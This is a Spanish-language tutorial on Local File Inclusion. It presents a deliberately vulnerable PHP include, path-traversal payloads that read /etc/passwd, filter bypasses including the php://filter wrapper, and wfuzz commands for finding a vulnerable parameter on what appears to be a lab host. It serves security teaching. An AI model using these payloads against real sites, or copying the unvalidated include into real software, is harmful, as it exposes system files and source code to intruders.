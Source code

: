 
## 📑 Índice de Contenidos

1. [🔥 Ejemplo vulnerable](#lfi)
2. [❌ ¿Qué hace mal este código?](#mal)
3. [🔍 ¿Cómo sospechamos que puede haber un LFI?](#-cómo-sospechamos-que-puede-haber-un-lfi)
4. [🔁 Bypasses comunes](#-bypasses-comunes)
5. [🤖 Automatizando con `wfuzz`](#-automatizando-con-wfuzz)
6. [🔎 Caso práctico: LFI en `login.php`](#-caso-práctico-lfi-en-loginphp)



<a name="lfi"></a>
🗂️ LFI (Local File Inclusion)
Una mala configuración en una aplicación web puede permitir al atacante incluir archivos del sistema, revelando información sensible. A continuación, un ejemplo típico en PHP:

🔥 Ejemplo vulnerable
```
<?php
// archivo: index.php

if (isset($_GET['page'])) {
    include($_GET['page']);
} else {
    include("home.php");
}
?>
```

<a name="mal"></a>
❌ ¿Qué hace mal este código?
Usa directamente $_GET['page'] sin validación.

  -Permite al atacante incluir archivos arbitrarios.

  -Por ejemplo, el siguiente payload puede mostrar el contenido de /etc/passwd en sistemas Linux:
  ```
  http://ejemplo.com/index.php?page=../../../../../../../etc/passwd
  ```

## 🔍 ¿Cómo sospechamos que puede haber un LFI?
URLs como estas son sospechosas:
```
http://victima.com/index.php?page=home
http://victima.com/?template=about
http://victima.com/view.php?file=readme.txt
```
Prueba incluir archivos del sistema:
```
http://victima.com/index.php?page=../../../../../../../etc/passwd
```
🧪 Si es vulnerable, verás algo como:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

## 🔁 Bypasses comunes

Si hay validaciones o filtros, intenta con variantes como:

| Técnica                                  | Ejemplo                                                                          |
| ---------------------------------------- | -------------------------------------------------------------------------------- |
| Null byte (en versiones antiguas de PHP) | `../../../../../etc/passwd%00`                                                   |
| Agregar signo de pregunta                | `../../../../../etc/passwd?`                                                     |
| Rutas con doble punto y slash mezclados  | `....//....//etc/passwd`                                                         |
| Wrappers de PHP                          | `php://filter/convert.base64-encode/resource=index.php` (para ver código fuente) |


## 🤖 Automatizando con wfuzz

Puedes usar wfuzz con diccionarios específicos para encontrar rutas LFI:
```bash
wfuzz -u "http://target.com/index.php?page=FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulcore.txt
```
Diccionarios útiles:

  -Seclist (dentro de /Fuzzing/LFI)

  -SecLists/Fuzzing/LFI/LFI-Jhaddix.txt

## 🔎 Caso práctico: LFI en login.php

Supón que descubres esta URL:
```bash
http://172.17.0.2/login.php
```
Y sospechas que puede tener un parámetro vulnerable. Primero intentamos descubrir el nombre del parámetro:
```bash
wfuzz -c --hc=404 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
"http://172.17.0.2/login.php?FUZZ=/etc/passwd"
```
👀 Observas que la mayoría de las respuestas tienen 1036 caracteres. Puedes filtrarlas con --hh:
```bash
wfuzz -c --hc=404 --hh=1036 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
"http://172.17.0.2/login.php?FUZZ=/etc/passwd"
```
✅ Esto revela que el parámetro vulnerable es file. Ahora prueba un payload con un diccionario de LFI:
```bash
wfuzz -c --hc=404 --hh=1036 -z file,/opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt \
"http://172.17.0.2/login.php?file=FUZZ"
```
